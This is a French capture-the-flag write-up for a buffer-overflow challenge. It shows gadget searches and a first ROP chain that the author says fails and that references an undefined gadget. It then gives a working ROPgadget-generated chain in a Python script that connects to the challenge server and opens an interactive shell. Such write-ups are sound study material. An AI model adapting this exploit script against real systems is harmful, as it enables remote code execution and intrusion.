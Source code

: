 # Bof_1 Get Shell

## Analyse

Toujours sur le même binaire que le `Bof_1` seulement cette fois ci, il faut obtenir un shell sur la machine.

## Exploitation

Dans l'optique d'apprendre quelque chose et de manière générale il est toujours mieux de faire sois-même ses shellcodes.

Pour celui de ce challenge, le but aurait été de `pop` les 4 registres permettant ensuite de faire un `syscall` à `execve`.

Pour cela, il faut 4 gadget `pop rax; ret` qui va contenir `0x3b` qui est le syscall pour `execve`.
`pop rdi; ret` qui va contenir un pointer sur `/bin/sh`.
`pop rsi; ret` qui va contenir NULL tout comme `pop rdx; ret`.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "pop rax"
[snip]
0x000000000040302c: pop rax; ret;

aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "pop rdi"
[snip]
0x0000000000401ece: pop rdi; ret;

aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "pop rsi"
[snip]
0x000000000040880e: pop rsi; ret;

aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "pop rdx"
[snip]
0x000000000048ef5b: pop rdx; pop rbx; ret; 
[snip]
```

Il faut aussi un gadget `push rsp` pour permettre à `pop rdi` de récupérer un pointer sur `/bin/sh`.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "push rsp"
[snip]
0x0000000000423354: push rsp; ret;
```

Enfin, il faut aussi un gadget avec `syscall`.

```js
aether@ysera:~/Documents/ctf/cyberthreatforce/pwn/Bof_1 $ ropper --file ./service --search "syscall" 
[snip]
0x000000000041ca64: syscall; ret;
```

Une fois tous ces gadgets, il ne manque plus qu'un script python pour envoyer la ropchain.

```python
#!/usr/bin/env python3

from pwn import *

import struct

def p64(addr):
    return struct.pack("<Q", addr)

# ROPgadget
POP_RAX = p64(0x000000000040302c)
POP_RDI = p64(0x0000000000401ece)
POP_RSI = p64(0x000000000040880e)
POP_RDX_RBX = p64(0x000000000048ef5b)
PUSH_RSP = p64(0x0000000000423354)
SYSCALL = p64(0x000000000041ca64)

# ROPChain
payload = b"".join([
    b"A" * 0x38,# Overflow
    PUSH_RSP, p64(0x68732f6e69622f2f),# Pointer //bin/sh
    PUSH_RDI,# //bin/sh
    POP_RAX, p64(0x3b),# execve syscall
    POP_RSI, p64(0x0),# NULL
    POP_RDX_RBX, p64(0x0), p64(0x0),# NULL
    SYSCALL# Syscall
    ])

print(payload)
```

Malheureusement, ce shellcode ne fonctionne pas. Le problème vient du `push rsp` et de la manière dont je récupère `//bin/sh`.
Après de longues recherches, je n'ai pas trouvé le moyen d'arriver à fin mes fins, je me suis donc rappelé de l'option `--ropchain` de `ROPgadget` qui permet de faire le travail tout seul.

## Exploitation Le Retour

Etant donné que le binaire est compilé en statique beaucoup plus d'instruction son disponible.

Technique de chien mais technique efficace, un petit `ROPgadget --binary ./service --ropchain` nous donne directement une ropchain fonctionnel.
J'ai été contraint de faire cela car je n'ai pas réussi à faire une ropchain fonctionnel. Nottament pour récupérer une adresse pour `/bin/sh`.

```python
#!/usr/bin/env python2

from struct import pack
import socket

HOST = "144.217.73.235"
PORT = 21222

# Padding goes here
p = b'A' * 0x38

p += pack('<Q', 0x000000000040880e) # pop rsi ; ret
p += pack('<Q', 0x00000000004cc0e0) # @ .data
p += pack('<Q', 0x000000000040302c) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x00000000004502f5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040880e) # pop rsi ; ret
p += pack('<Q', 0x00000000004cc0e8) # @ .data + 8
p += pack('<Q', 0x00000000004439c9) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004502f5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401ece) # pop rdi ; ret
p += pack('<Q', 0x00000000004cc0e0) # @ .data
p += pack('<Q', 0x000000000040880e) # pop rsi ; ret
p += pack('<Q', 0x00000000004cc0e8) # @ .data + 8
p += pack('<Q', 0x000000000048ef5b) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004cc0e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x00000000004439c9) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000483e30) # add rax, 1 ; ret
[snip]
p += pack('<Q', 0x000000000040120e) # syscall

print(p)

tcp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
tcp.connect((HOST, PORT))
tcp.settimeout(1)

tcp.recv(1024)

tcp.send(p + b"\n")

tcp.recv(1024)
tcp.recv(1024)

print("[+] Payload sent !")

while True:
    try:
        tcp.send(input(">>> ").encode() + b"\n")
        print(tcp.recv(1024).decode().strip())
    except socket.timeout:
        continue
    except KeyboardInterrupt:
        exit(0)
```

Le flag est ensuite disponible sous `/home/ctf/flag.txt`.

flag: `CYBERTF{B@sic_R0PChain}`
